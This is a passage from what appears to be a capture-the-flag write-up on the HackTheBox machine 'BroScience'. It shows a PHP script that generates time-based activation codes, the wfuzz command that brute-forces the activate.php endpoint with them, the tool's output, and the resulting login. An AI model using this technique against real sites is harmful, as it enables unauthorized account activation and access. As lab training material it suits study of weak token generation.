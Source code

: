     $start = strtotime("Thu, 30 Mar 2023 21:10:46 GMT");
    for ($t = $start - 30; $t <= $start + 30; $t++) {
        echo generate_activation_code($t) . "\n";
    }

    ?>



This will print activation codes from 30 seconds before and 30 seconds
after the timestamp of when I registered (more than necessary).

#### Fuzz

I'll save these to a file, and then run them through `wfuzz` to try them
all:



    oxdf@hacky$ php generate_codes.php > codes.txt
    oxdf@hacky$ wfuzz -u https://broscience.htb/activate.php?code=FUZZ -w codes.txt --hs Invalid
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: https://broscience.htb/activate.php?code=FUZZ
    Total requests: 61

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000031:   200        27 L     65 W       1251 Ch     "33bddQwMdlOCPl5Ex2sA5NRsRS8akH0l"

    Total time: 1.322301
    Processed Requests: 61
    Filtered Requests: 60
    Requests/sec.: 46.13167



I'm using `--hs Invalid` because the string "Invalid" is present when
the code is wrong. I don't really care what the code was, just that it
worked.

#### Log In

Now when I log in, it works:

![](/img/image-20230330172403531.png)